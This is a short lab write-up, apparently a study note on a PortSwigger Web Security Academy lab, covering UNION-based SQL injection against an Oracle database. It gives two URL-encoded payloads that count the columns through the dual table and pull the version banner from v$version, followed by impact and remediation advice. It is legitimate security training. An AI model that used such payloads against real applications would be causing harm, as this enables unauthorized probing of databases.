


# Lab 4: SQL Injection - Querying Database Type and Version on Oracle

**Category:** SQL Injection
**Difficulty:** Practitioner
**Link:** https://portswigger.net/web-security/sql-injection/examining-the-database

## Vulnerability
The product category filter is vulnerable to SQL injection, allowing
a UNION attack to retrieve data from other database tables/views.

## Exploitation

**Step 1 - Confirmed two text columns using Oracle's dual table:**

'+UNION+SELECT+'abc','def'+FROM+dual--
Returned 'abc' and 'def' confirming two text columns exist.

**Step 2 - Extracted Oracle version from v$version view:**

'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
## Result
Successfully retrieved Oracle database version information:
- Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
- PL/SQL Release 11.2.0.2.0 - Production
- TNS for Linux: Version 11.2.0.2.0 - Production

## Why Oracle is Different
- Oracle requires FROM clause in every SELECT statement
- Uses FROM dual for queries with no real table needed
- Version info stored in v$version view using BANNER column

## Impact
An attacker can identify the exact database type and version, which
helps tailor further attacks using version-specific vulnerabilities
and syntax.

## Remediation
Use parameterized queries to prevent SQL injection. Restrict database
user permissions so application accounts cannot query system views
like v$version.

## Evidence

